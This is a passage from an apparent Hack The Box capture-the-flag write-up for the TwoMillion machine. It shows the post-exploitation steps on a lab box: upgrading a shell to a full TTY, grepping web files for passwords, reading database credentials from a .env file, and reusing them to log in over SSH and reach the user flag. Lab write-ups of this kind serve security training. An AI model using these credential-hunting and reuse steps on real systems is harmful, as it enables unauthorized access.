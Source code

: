 Let's quickly prettify it!
```
www-data@2million:~/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@2million:~/html$ ls
ls
Database.php  VPN     controllers  fonts   index.php  views
Router.php    assets  css	   images  js
www-data@2million:~/html$ ^Z
```
On our terminal: `stty raw -echo;fg` and then `export TERM=xterm` and bob is your uncle!

Next, I try to search for any password so I do `grep` (cause that is what I know!)
```
www-data@2million:~/html$ grep -i --color "password" ./*
grep: ./VPN: Is a directory
grep: ./assets: Is a directory
grep: ./controllers: Is a directory
grep: ./css: Is a directory
grep: ./fonts: Is a directory
grep: ./images: Is a directory
./index.php:$dbPass = $envVariables['DB_PASSWORD'];
grep: ./js: Is a directory
grep: ./views: Is a directory
```
Looks likes password is being fetched from environment variables (Hence task 9! I guess.).
```
www-data@2million:~/html$ cat .env 
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Well, as we have `ssh` port open, let's try to login via SSH!
```
┌─[htb_lab_truelyyours]─[10.10.16.82]─[truelyyours@parrot]─[~/htb/twomillion]
└──╼ [★]$ ssh admin@2million.htb
The authenticity of host '2million.htb (10.10.11.221)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '2million.htb' (ED25519) to the list of known hosts.
admin@2million.htb's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)
.
.
.
admin@2million:~$ whoami
admin
admin@2million:~$ ls
user.txt
```
